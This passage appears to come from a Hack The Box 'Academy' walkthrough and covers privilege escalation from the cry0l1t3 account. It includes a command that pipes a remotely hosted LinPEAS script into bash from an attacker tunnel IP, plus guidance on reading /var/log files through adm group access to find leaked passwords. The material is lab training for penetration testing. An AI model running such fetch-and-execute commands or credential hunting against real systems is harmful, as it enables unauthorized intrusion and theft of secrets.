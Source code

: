 Now that we have access to the user, we need to figure out how to use this account's access to escalate our privilege to the root user.

## Looking for a Path to Root
Something that stood out right away when we ran the `id` command after logging in as `cry0l1t3` is that this account is part of the `adm` group. This is a Linux group that is associated to a majority of the log files that are created and updated in `/var/log`. It will be worth looking through these logs to see if we can find any commands that contained a password or some other sensitive data that may help us move forward.

Before we start looking through the log files, we should also get some background recon running. I'm a big fan of [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS). Because we can ssh to the user, it is easy for us to get more than one shell open at a time. Let's open a second SSH session as this user. Now download LinPEAs.sh to our working directory, and then start the python http server from our working directory.

``` bash
python3 -m http.server 80
```

Then from one of our SSH windows, we will run the following command to use `curl` to download LinPEAS from our machine and then pipe it directly out of memory into bash.

``` bash
curl http://<YOUR TUNNEL IP>/LinPEAS.sh | bash
```

>**NOTE:** The results of LinPEAs will not lead to anything interesting, outside of identifying the group access that we are already aware of. However, I shared this here because this was my actual approach and learning to have background recon any chance you get is a good idea.

While that is running, we can begin looking through the log files in `/var/log` in our other SSH session.

![](/assets/images/htb-academy/24_academy_logs.png)

When we list the contents of `/var/log`, we get a list of the logs on the machine. Notice that the `adm` group has access to many of these. It is because we are in this group that we will be able to look through these. Initial targets should be things like the `auth.log`, the logs in `/var/log/mysql` and logs in `/var/log/audit`.
